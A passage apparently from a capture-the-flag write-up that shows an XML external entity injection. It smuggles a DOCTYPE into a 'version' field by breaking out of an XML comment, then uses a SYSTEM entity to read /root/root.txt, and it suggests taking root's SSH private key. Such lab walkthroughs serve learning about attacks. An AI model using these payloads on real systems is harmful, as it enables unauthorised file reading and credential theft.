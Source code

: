 So let's put this as our version value: `1.0.0 --> <!DOCTYPE lxml [<!ENTITY example 'John'> ]> <!--` and call it by setting our username to `&example;`:

![John](images/john.png)

Nice! we got execution as we can see we are greeted as the username John even though we said `&example;` is our name so it got replaced by out entitiy.
 
Now we can cheese the root flag like this:

```xml
1.0.0 --> <!DOCTYPE lxml [<!ENTITY example SYSTEM 'file:///root/root.txt'> ]> <!--
```

For real root access we could just take the private key from /root/.ssh/ and authenticate with that for example.
